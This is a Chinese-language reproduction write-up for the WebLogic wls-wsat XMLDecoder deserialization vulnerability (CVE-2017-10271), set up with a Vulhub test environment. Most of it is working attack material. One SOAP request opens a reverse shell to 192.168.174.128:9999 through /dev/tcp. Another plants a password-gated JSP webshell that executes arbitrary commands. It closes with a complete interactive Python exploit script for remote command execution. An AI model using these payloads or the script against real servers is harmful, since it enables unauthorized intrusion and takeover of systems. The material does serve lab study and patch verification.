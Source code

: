 # Weblogic < 10.3.6 wls-wsat XMLDecoder 反序列化漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

参考链接：

- https://www.exploit-db.com/exploits/43458/
- https://paper.seebug.org/487/
- [https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices组件反序列化漏洞分析.md](https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic WLS-WebServices组件反序列化漏洞分析.md)
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

## 环境搭建

Vulhub启动测试环境：

```
docker-compose up -d
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

![image-20220302164201482](images/202203021642629.png)

## 漏洞复现

### 反弹shell

发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.174.128/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

成功获取shell：

![image-20220302164442146](images/202203021644422.png)

### webshell

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
    <% if("poc".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
            while((a=in.read(b))!=-1){
                out.println(new String(b,0,a));
            }
            out.print("</pre>");
        }
    %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问：`http://your-ip:7001/bea_wls_internal/test.jsp`，执行命令：

![image-20220302165701848](images/202203021657971.png)


## 漏洞EXP

```python
from __future__ import print_function
from builtins import input
import requests
import sys

url_in = sys.argv[1]
payload_url = url_in + "/wls-wsat/CoordinatorPortType"
payload_header = {'content-type': 'text/xml'}


def payload_command (command_in):
    html_escape_table = {
        "&": "&amp;",
        '"': "&quot;",
        "'": "&apos;",
        ">": "&gt;",
        "<": "&lt;",
    }
    command_filtered = "<string>"+"".join(html_escape_table.get(c, c) for c in command_in)+"</string>"
    payload_1 = "<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"> \n" \
                "   <soapenv:Header> " \
                "       <work:WorkContext xmlns:work=\"http://bea.com/2004/06/soap/workarea/\"> \n" \
                "           <java version=\"1.8.0_151\" class=\"java.beans.XMLDecoder\"> \n" \
                "               <void class=\"java.lang.ProcessBuilder\"> \n" \
                "                  <array class=\"java.lang.String\" length=\"3\">" \
                "                      <void index = \"0\">                       " \
                "                          <string>cmd</string>                 " \
                "                      </void>                                    " \
                "                      <void index = \"1\">                       " \
                "                          <string>/c</string>                  " \
                "                      </void>                                    " \
                "                      <void index = \"2\">                       " \
                + command_filtered + \
                "                      </void>                                    " \
                "                  </array>" \
                "                  <void method=\"start\"/>" \
                "                  </void>" \
                "            </java>" \
                "        </work:WorkContext>" \
                "   </soapenv:Header>" \
                "   <soapenv:Body/>" \
                "</soapenv:Envelope>"
    return payload_1

def do_post(command_in):
    result = requests.post(payload_url, payload_command(command_in ),headers = payload_header)

    if result.status_code == 500:
        print("Command Executed \n")
    else:
        print("Something Went Wrong \n")



print("***************************************************** \n" \
       "****************   Coded By 1337g  ****************** \n" \
       "*  CVE-2017-10271 Blind Remote Command Execute EXP  * \n" \
       "***************************************************** \n")

while 1:
    command_in = input("Eneter your command here: ")
    if command_in == "exit" : exit(0)
    do_post(command_in)
```

